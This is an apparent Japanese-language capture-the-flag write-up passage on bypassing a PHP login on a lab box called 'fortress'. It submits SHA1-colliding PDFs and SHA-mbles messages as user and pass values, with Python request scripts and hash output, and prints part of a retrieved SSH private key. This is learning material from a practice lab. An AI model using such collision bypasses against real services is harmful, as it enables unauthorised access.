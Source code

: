 ```python
import requests

pdf1 = requests.get("http://localhost:8000/out-1.pdf")
pdf2 = requests.get("http://localhost:8000/out-2.pdf")

params = {'user': pdf1.content, 'pass': pdf2.content}
r = requests.get("http://fortress:7331/[REDACTED].php/",params=params)
print (r.text)
```

`I feel pitty for you` が返る。shattered-1.pdf は封じられているらしい。

自分で適当に作った PDF をもとに [sha1collider](https://github.com/nneonneo/sha1collider/tree/master) で SHA1 が一致する PDF を作り、同じことをした。

```sh
$ python ./collide.py ../fortress.pdf ../fortress2.pdf

$ head -c 501 ./out-fortress.pdf > out-1.pdf
head -c 501 ./out-fortress2.pdf > out-2.pdf
collider]

$ sha1sum ./*.pdf
723dd3ea75a0df5134549645a1e3ef9ef16fef1d  ./out-1.pdf
723dd3ea75a0df5134549645a1e3ef9ef16fef1d  ./out-2.pdf
```

それでも `I feel pitty for you` が返った。

https://github.com/cr-marcstevens/hashclash で SHA1 文字列を生成することを目指したが、使い方が分からなかった。（MD5 なら簡単だったが）

https://sha-mbles.github.io/ から messageA, messageB をダウンロード。サイズがちょうどいい。

```python
import requests

msg1 = requests.get("http://localhost:8000/messageA")
msg2 = requests.get("http://localhost:8000/messageB")

params = {'user': msg1.content, 'pass': msg2.content}
r = requests.get("http://fortress:7331/[REDACTED].php/",params=params)
print (r.text)
```

テキストファイル名が返ってきた。

```html
<pre>
'The guards are in a fight with each other... Quickly retrieve the key and leave the temple: '[REDACTED].txt</pre
>
```

秘密鍵

```
"The Temple guards won't betray us, but I fear of their foolishness that will take them down someday.
I am leaving my private key here for you j4x0n. Prepare the fort, before the enemy arrives"
												- h4rdy

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAxxO1IrpzA3klEYGFfD+4wUr5Q85IEEAIpwC+zY547gPJ5xIJE76j
...
```
